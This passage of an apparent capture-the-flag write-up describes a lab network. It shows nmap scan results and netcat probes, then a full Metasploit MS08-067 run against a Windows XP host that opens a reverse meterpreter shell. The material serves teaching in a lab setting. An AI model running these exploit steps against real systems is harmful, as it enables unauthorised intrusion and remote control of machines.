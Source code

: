 ```
23/tcp   open  telnet     Linux telnetd
37/tcp   open  time       (32 bits)
111/tcp  open  rpcbind    2-4 (RPC #100000)
3128/tcp open  http-proxy Squid http proxy 3.1.20
MAC Address: 00:00:00:00:02:01 (Xerox)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Using `/24` allows us to test all IP addresses within the range `10.245.32.0~10.245.32.255`. Thanks to this, we've discovered two other boxes on the network (anything with an IP address above 200 or so can be disregarded; it's probably you). You can play around with the active services on the open ports if you like.

```
$ nc 10.245.32.98 7
hello world
hello world
^C
$ nc 10.245.32.98 13
11 JUL 2018 14:21:49 AEST
```

## Hacking Time
Once we've had enough fun with that, it's time to actually make use of the information we've found. The main thing to gather from this is the `microsoft-ds` service running on the `.13` box on port 445. This is [the SMB service](https://www.grc.com/port_445.htm), and I'm sure we all know how secure this protocol is. We can pretty easily go through the motions and script kiddie our way in with [CVE MS08-067](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi) using `metasploit`.

```
$ msfconsole
$ use exploit/windows/smb/ms08_067_netapi 
$ set rhost 10.245.32.13
rhost => 10.245.32.13
$ set rport 445
rport => 445
$ exploit
[*] Started reverse TCP handler on 10.245.32.10:4444
[*] 10.245.32.13:445 - Automatically detecting the target...
[*] 10.245.32.13:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.245.32.13:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.245.32.13:445 - Attempting to trigger the vulnerability...
[*] Sending stage (179779 bytes) to 10.245.32.13
[*] Sleeping before handling stage...
[*] Meterpreter session 1 opened (10.245.32.10:4444 -> 10.245.32.13:1088) at 2018-07-11 14:28:58 +1000
```

This gives us a `meterpreter` shell on the XP box. We can now freely explore the file system, so we've now gained access to a lot more information. Before we start digging though, we may as well claim the flag while we're here.
